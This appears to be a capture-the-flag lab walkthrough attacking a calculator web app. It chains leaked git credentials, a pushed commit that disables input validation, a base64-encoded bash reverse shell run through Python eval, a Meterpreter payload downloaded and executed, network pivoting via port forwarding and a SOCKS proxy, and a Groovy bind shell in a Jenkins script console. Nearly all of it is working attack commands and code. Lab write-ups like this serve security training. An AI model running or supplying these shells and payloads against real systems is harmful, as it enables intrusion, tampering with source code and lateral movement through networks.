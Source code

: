 # BLACK BOX TESTING 2

## GIVEN   
### MY IP ADDRESS
192.32.59.2

### NMAP

**OPEN PORTS**:<br>
80 http (Apache 2.4.29 Web Server),<br>
5000 http,<br>
8000 http (Python 2.7.17 Web Server)<br>

Port 80 is the default apache page<br>
Port 5000 is a calc webapp<br>
Port 8000 is hosting a git repo<br>

**FILE OF INTEREST**: http://online-calc.com:8000/.git/config

### GIT CREDENTIALS
name = Jeremy McCarthy<br>
email = jeremy@dummycorp.com<br>
**password** = diamonds<br>
**username** = jeremy<br>

**GIT UR**L: http://online-calc.com/projects/online-calc

### DISABLE INPUT VALIDATION
```
git clone http://online-calc.com/projects/online-calc
```

Comment out code in API.py:
```
# if not isValid(expr):
#	return error("Invalid expression!")
```

Push changes to git repo
```
git add -A
git commit -m "updated"
git push origin
```

Check if webapp is updated
```
curl http://online-calc.com:8000/API.py
```

### RCE REVERSE SHELL

Calc input is run through python eval function

Reverse shell bash script
```
bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'
```

Reverse shell embedded in python code
```
__import__('os').system("bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'")
```

Encode reverse shell
```
echo "bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'" | base64
```

**ENCODED SCRIPT**:YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMzIuNTkuMi8xMjM0IDA+JjEnCg==

Final python script
```
__import__('os').system("echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMzIuNTkuMi8xMjM0IDA+JjEnCg== | base64 -d | bash")
```

### GETTING FLAG 1
```
find / -iname *flag* 2>/dev/null
```

/tmp/flag

**FLAG**: 3b2b474c06380f696b38c1498f795e054374

```
ip addr
```
Host connected to another network that we can pivot to:<br>
eth0: 192.32.59.3/24 (Current Network)<br>
**eth1**:192.244.194.2/24 (Unreachable Network)

### METERPRETER

Create payload & start server
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.32.59.2 LPORT=4444 -f elf > PAYLOAD
python3 -m http.server 80

Download payload on target machine
```
curl http://192.32.59.2/PAYLOAD > PAYLOAD
```

Set up payload handler in metasploit
```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.32.59.2
set lport 4444
exploit

Execute payload
```
chmod +x PAYLOAD
./PAYLOAD
```

### PIVOT

Run port scan on other network
```
run autoroute -s 192.244.194.0/24
background
use auxiliary/scanner/portscan/tcp 
set rhosts 192.244.194.0/24
run
```

**IP (OPEN PORT)**: 192.244.19.3 (8080)

Configure port forwarding and run nmap
```
sessions -i 1
portfwd add -l 5555 -p 8080 -r 192.244.194.3
background
nmap -sV -sC -p5555 localhost
```

SERVICE: http (Jetty 9.4.27)

Start proxy server to access website
```
use auxiliary/server/socks_proxy
set srvport 9050 #Default port for proxychains
set version 4a
run
proxychains nmap -sT -P0 192.244.194.3 #Proxies don't support ping so have to use -P0
```

Configure proxy for browser:<br>
- Manual proxy config
- SOCKS Host: 127.0.0.1
- Port: 9050
- Socks v4

Website running Jenkins (automation server)

### GETTING SHELL ACCESS

Execute groovy bind script in the Script Console:
```
int port=6666;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new java.net.ServerSocket(port).accept()
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Connect to the server
```
nc -v 192.244.194.3 6666
```